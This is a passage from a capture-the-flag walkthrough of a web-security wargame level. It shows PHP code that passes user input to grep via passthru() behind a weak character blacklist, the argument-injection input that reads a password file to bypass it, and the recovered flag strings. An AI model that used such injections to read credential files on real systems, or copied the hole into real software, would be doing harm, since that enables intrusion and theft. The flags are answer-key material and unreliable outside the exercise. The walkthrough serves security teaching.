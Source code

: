 ```
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```
{% endtab %}
{% endtabs %}

## Level 10

This challenge runs the same grep command with php, but it filters the user's input first. Our solution will still work though by removing the `;` from our input. This will just have grep search our file as well as the one defined in the php file.

{% tabs %}
{% tab title="PHP Grep" %}
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```
{% endtab %}
{% tab title="Form Input" %}
```
-e ".*" /etc/natas_webpass/natas11
```
{% endtab %}
{% tab title="Flag" %}
```
U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```
{% endtab %}
{% endtabs %}
